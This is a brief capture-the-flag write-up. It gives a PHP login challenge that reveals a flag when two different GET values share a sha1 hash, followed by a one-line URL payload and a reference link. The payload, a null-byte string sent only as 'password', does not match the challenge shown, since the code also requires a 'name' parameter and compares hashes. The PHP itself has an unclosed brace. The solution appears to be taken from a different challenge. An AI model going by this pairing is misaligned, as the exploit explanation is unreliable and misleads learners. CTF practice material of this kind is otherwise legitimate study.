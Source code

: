 # Challenge 
```php
<?php
if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
	echo '<p>Login first!</p>';
?>
```
# Solution
payload:
```
?password=9e9%00*-*
```

# Refference
+ [chybeta : FALSE](https://chybeta.github.io/2017/07/24/%E5%AE%9E%E9%AA%8C%E5%90%A7-web-writeup/#Once-More)